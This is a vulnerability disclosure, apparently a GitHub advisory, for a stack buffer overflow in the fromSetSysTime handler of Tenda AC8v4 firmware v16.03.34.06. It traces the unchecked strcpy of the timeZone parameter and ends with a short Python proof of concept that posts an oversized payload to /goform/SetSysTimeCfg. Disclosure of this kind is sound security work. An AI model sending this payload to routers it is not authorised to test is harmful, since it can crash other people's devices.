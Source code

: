 # Tenda AC8v4 v16.03.34.06 fromSetSysTime

## Overview

- Manufacturer's website information：https://www.tenda.com.cn/

- Firmware download website: https://www.tenda.com.cn/material/show/103518

## Affected version

AC8v4 v16.03.34.06

## Vulnerability details

The Tenda AC8v4 V16.03.34.06 firmware has a stack overflow vulnerability in the `fromSetSysTime` function. The `v3` variable receives the `timeType` parameter from a POST request and we let `v3=="sync"` to execute function `sub_4A75C0`. 

![1735745539949](/img/1735745539949.png)

The `s` variable receives the `timeZone` parameter from a POST request. However, since the user can control the input of `timeZone`, the statement `strcpy((char *)v6, s);` can cause a buffer overflow. The user-provided  `timeZone` can exceed the capacity of the `v6` array, triggering this security vulnerability.

![1735745606521](/img/1735745606521.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.1.100"
url = "http://" + ip + "/goform/SetSysTimeCfg"
payload = b"a"*1000

data = {
        'timeType':'sync',
        'timeZone':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![1735745816017](/img/1735745816017.png)
